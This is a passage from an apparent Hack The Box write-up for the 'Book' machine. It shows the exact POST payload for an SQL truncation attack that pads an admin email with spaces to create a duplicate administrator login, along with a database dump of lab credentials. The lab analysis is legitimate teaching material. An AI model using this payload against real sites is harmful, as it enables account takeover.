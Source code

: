 We can reset the administrator's password by creating a new user with `admin` as the username and an email address of `admin@book.htb`. Of course, we can't just create the account like that because the user already exists. So the trick here is to send an email address padded with spaces at the end and add an extra character at the end so it'll get truncated. We need the extra character at the end because the application first strips whitespace at the end of string.

POST request: `name=admin&email=admin@book.htb++++++a&password=1234`

After I rooted the box I looked at the MySQL database and it doesn't actually reset the admin's password but it creates a new user with the same name and email address:

```
mysql> select * from users;
+------------+----------------------+-------------------+
| name       | email                | password          |
+------------+----------------------+-------------------+
| admin      | admin@book.htb       | Sup3r_S3cur3_P455 |
| test       | a@b.com              | test              |
| shaunwhort | test@test.com        | casablancas1      |
| peter      | hi@hello.com         | password          |
| admin      | admin@book.htb       | 1234              |
+------------+----------------------+-------------------+
```

We can now log in with `admin@book.htb / 1234`.

![](/assets/images/htb-writeup-book/admin1.png)

Under the Users we can see a bunch of users already created, plus our new user.

![](/assets/images/htb-writeup-book/admin2.png)
